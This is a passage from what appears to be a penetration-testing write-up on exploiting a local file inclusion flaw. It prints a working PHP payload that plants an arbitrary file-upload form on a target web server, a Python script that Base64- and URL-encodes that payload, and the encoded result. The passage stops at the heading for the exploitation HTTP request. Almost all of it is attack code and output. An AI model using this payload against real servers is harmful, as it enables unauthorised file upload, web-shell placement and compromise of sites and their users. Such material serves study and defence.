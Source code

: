 
```php
<form enctype="multipart/form-data" action="yolo.php" method="POST"><input type="hidden" name="MAX_FILE_SIZE" value="512000"/> Upload file: <input name="userfile" type="file" /><input type="submit" value="Send File" /></form><?php $uploadfile = basename($_FILES['userfile']['name']);echo "<p>";if(move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)){echo "File is valid, and was successfully uploaded.\n";}else {echo "Upload failed";}echo "</p>";echo '<pre>';echo 'Here is some more debugging info:';print_r($_FILES);print "</pre>";?>
```

<p style="text-align:justify;">
The following python script used to <b>Base64</b> and <b>URL</b> encode the payload above
</p>

```python

import base64
import urllib

encoded = base64.b64encode('<form enctype="multipart/form-data" action="yo.php" method="POST"><input type="hidden" name="MAX_FILE_SIZE" value="512000"/> Upload file: <input name="userfile" type="file" /><input type="submit" value="Send File" /></form><?php $uploadfile = basename($_FILES[\'userfile\'][\'name\']);echo "<p>";if(move_uploaded_file($_FILES[\'userfile\'][\'tmp_name\'], $uploadfile)){echo "File is valid, and was successfully uploaded.\n";}else {echo "Upload failed";}echo "</p>";echo \'<pre>\';echo \'Here is some more debugging info:\';print_r($_FILES);print "</pre>";?>')

print(urllib.quote(encoded))

```

Then the encoded payload will be as follows 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
PGZvcm0gZW5jdHlwZT0ibXVsdGlwYXJ0L2Zvcm0tZGF0YSIgYWN0aW9uPSJ5by5waHAiIG1ldGhvZD0
iUE9TVCI%2BPGlucHV0IHR5cGU9ImhpZGRlbiIgbmFtZT0iTUFYX0ZJTEVfU0laRSIgdmFsdWU9IjUx
MjAwMCIvPiBVcGxvYWQgZmlsZTogPGlucHV0IG5hbWU9InVzZXJmaWxlIiB0eXBlPSJmaWxlIiAvPjx
pbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJTZW5kIEZpbGUiIC8%2BPC9mb3JtPjw/cGhwICR1cGxv
YWRmaWxlID0gYmFzZW5hbWUoJF9GSUxFU1sndXNlcmZpbGUnXVsnbmFtZSddKTtlY2hvICI8cD4iO2l
mKG1vdmVfdXBsb2FkZWRfZmlsZSgkX0ZJTEVTWyd1c2VyZmlsZSddWyd0bXBfbmFtZSddLCAkdXBsb2
FkZmlsZSkpe2VjaG8gIkZpbGUgaXMgdmFsaWQsIGFuZCB3YXMgc3VjY2Vzc2Z1bGx5IHVwbG9hZGVkL
goiO31lbHNlIHtlY2hvICJVcGxvYWQgZmFpbGVkIjt9ZWNobyAiPC9wPiI7ZWNobyAnPHByZT4nO2Vj
aG8gJ0hlcmUgaXMgc29tZSBtb3JlIGRlYnVnZ2luZyBpbmZvOic7cHJpbnRfcigkX0ZJTEVTKTtwcml
udCAiPC9wcmU%2BIjs/Pg%3D%3D
</pre>

<p style="text-align:justify;">
Now its time to test all the above. The following request / response pair shows the succesfull exploitation of the LFI vulnerability. The file <b>yolo.php</b> will be uploaded on the server 
</p>

<i><b> HTTP Request </b></i>
